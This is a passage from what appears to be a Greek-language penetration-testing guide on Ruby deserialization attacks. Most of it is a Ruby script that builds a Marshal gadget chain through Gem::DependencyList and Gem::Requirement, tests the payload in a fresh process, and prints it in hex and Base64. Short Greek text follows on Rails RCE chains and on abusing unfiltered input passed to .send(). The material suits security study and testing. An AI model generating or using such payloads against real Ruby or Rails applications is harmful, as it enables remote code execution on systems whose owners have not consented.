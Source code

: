 ```ruby
puts


$dependency_list= Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

puts "STEP n-2"
$dependency_list.each{} rescue nil
puts


class Gem::Requirement
def marshal_dump
[$dependency_list]
end
end

payload = Marshal.dump(Gem::Requirement.new)

puts "STEP n-3"
Marshal.load(payload) rescue nil
puts


puts "VALIDATION (in fresh ruby process):"
IO.popen("ruby -e 'Marshal.load(STDIN.read) rescue nil'", "r+") do |pipe|
pipe.print payload
pipe.close_write
puts pipe.gets
puts
end

puts "Payload (hex):"
puts payload.unpack('H*')[0]
puts


require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```
Άλλες αλυσίδες RCE για εκμετάλλευση του Ruby On Rails: [https://codeclimate.com/blog/rails-remote-code-execution-vulnerability-explained/](https://codeclimate.com/blog/rails-remote-code-execution-vulnerability-explained/)

### Μέθοδος Ruby .send()

Όπως εξηγείται σε [**αυτή την αναφορά ευπάθειας**](https://starlabs.sg/blog/2024/04-sending-myself-github-com-environment-variables-and-ghes-shell/), αν κάποια μη φιλτραρισμένη είσοδος χρήστη φτάσει στη μέθοδο `.send()` ενός αντικειμένου ruby, αυτή η μέθοδος επιτρέπει να **καλέσετε οποιαδήποτε άλλη μέθοδο** του αντικειμένου με οποιαδήποτε παραμέτρους.
